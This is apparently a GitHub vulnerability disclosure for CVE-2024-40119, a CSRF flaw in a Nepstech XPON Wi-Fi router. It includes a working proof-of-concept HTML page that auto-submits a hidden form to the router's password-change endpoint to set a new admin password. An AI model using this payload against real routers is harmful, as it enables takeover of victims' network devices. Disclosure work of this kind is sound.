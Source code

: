 # nepstech-xpon-router-CVE-2024-40119

# Author:
Subhodeep Baroi

# CVE-2024-40119: CSRF Vulnerability in Nepstech Wifi Router NTPL-XPON1GFEVN v1.0

## Description

**CVE-2024-40119** is a Cross-Site Request Forgery (CSRF) vulnerability in the Nepstech Wifi Router xpon NTPL-XPON1GFEVN v1.0 firmware v2.0.1. This vulnerability allows remote attackers to change the admin password without the user's consent, leading to a potential account takeover.

## Details

- **Vulnerability Type:** Cross-Site Request Forgery (CSRF)
- **Vendor of Product:** Nepstech
- **Affected Product Code Base:** Wifi Router xpon (terminal) - Model: NTPL-XPON1GFEVN - Version: 1.0 and Firmware: V2.0.1
- **Affected Component:** Router web app password-changing functionality
- **Attack Type:** Remote
- **Impact:** Admin Account Takeover

## Attack Vectors

A remote attacker can craft a malicious HTML page that triggers the password change functionality when visited by an authenticated user. Below is a sample attack vector:

```html
<!DOCTYPE html>
<html>
  <body>
    <form action="http://192.168.1.1/cgi-bin/mag-account.asp" method="POST">
      <input type="hidden" name="name0" value="admin" />
      <input type="hidden" name="name1" value="user" />
      <input type="hidden" name="name2" value="user3" />
      <input type="hidden" name="oldUsername" value="admin" />
      <input type="hidden" name="newUsername" value="" />
      <input type="hidden" name="oldPassword" value="" />
      <input type="hidden" name="newPassword" value="UserUser2&#64;" />
      <input type="hidden" name="cfmPassword" value="UserUser2&#64;" />
      <input type="hidden" name="accountflg" value="1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
